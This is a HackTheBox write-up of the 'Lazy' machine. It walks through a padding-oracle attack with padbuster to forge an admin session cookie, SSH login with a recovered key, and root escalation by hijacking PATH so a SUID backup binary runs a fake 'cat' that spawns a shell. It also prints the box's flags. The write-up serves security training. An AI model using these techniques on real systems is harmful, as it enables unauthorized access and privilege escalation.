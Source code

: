 # Lazy

Author: Ewaël

**Lazy** is a medium HackTheBox box by trickster0.

`nmap -sC -sV -oN nmap 10.10.10.18 -v -A` shows port 80 and 22 are open. Let's start with the website:

![main](main.png)

After trying some default creds for admin, I decide to register as "admi". Once I'm logged in, I see an `auth` cookie which I decide to decrypt:

```
padbuster http://10.10.10.18 Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ 8 -cookies auth=Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ
```

It shows me that only the user is saved:

```
[+] Decrypted value (ASCII): user=admi
```

Thus I can easily modify it to become "admin" instead of "admi".

```
padbuster http://10.10.10.18 Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ 8 -cookies auth=Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ -plaintext user=admin
```

My new `auth` cookie is `BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA`, and allows me to be logged in as "admin".

![admin](admin.png)

With `mitsos` ssh key, `ssh mitsos@10.10.10.18 -i ssh_key` allows me to get my user flag in `mitsos` home dir:

```
d558e7924bdfe31266ec96b007dc63fc
```

In this same directory there is a `backup` executable with root SUID which seems to print what is in `/etc/shadow`. A quick `ltrace ./backup` reveals me a very interesting information:

![ltrace](ltrace.png)

`cat` is used by `system` instead of `/bin/cat` so I can easily replace this with my own version of `cat`:

```bash
#!/bin/sh
/bin/sh
```

Then `chmod +x cat` makes the script executable and `export PATH=/home/mitsos:${PATH}` adds it in first place to `PATH`. After executing `backup` again, I get my root shell and flag:

`990b142c3cefd46a5e7d61f678d45515`

